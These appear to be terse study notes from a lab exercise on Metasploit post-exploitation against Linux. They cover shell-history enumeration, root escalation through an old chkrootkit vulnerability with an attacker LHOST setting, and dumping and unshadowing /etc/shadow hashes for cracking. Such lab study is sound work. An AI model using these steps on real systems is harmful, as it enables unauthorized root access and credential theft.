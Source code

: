 /gather/enum_user_history -> .history contains log of used commands


All the impt enum notes saved here
`notes`
Also, 
`loot`


### Linux Priveledge escalation

- depends on kernal version as well as distribution version
- Some cases using a vuln service (MSF offers more for these)

Demo:
/ssh_login -> given u: jackie p: password

after upgrading to meterpreter
`cat /etc/passwd`

`ps aux`
a /bin/bash /bin/check-down script is running as a process
`cat /bin/check-down`
```bash
while:
do 
	/usr/local/bin/chkrootkit/chkrootkit -x > /dev/null 2>&1
	sleep 60
done
```
-> anti rootkit system
-> chkrootkit is vuln to a PE vuln only affects verison older than0.50
`chkrootkit -V` -> version 0.49

/unix/local/chkrootkit

`set CHKROOTKIT /bin/chkrootkit`
`set LHOST <attackerip>`


## Dump linux hashes

Hashdump
- On windows, hashdump coommand is built in
- On linux, need to load up the module
- Hashes on linux found in the /etc/shadow, 
- unshadow hashes for password cracking


Demo:
/samba/is_known_pipename

/linux/gather/hashdump
`loot`
`cat /root/.msf4/......`
-> view the passwd.tx file stored
-> shadowed/unshadowed files all foudn here
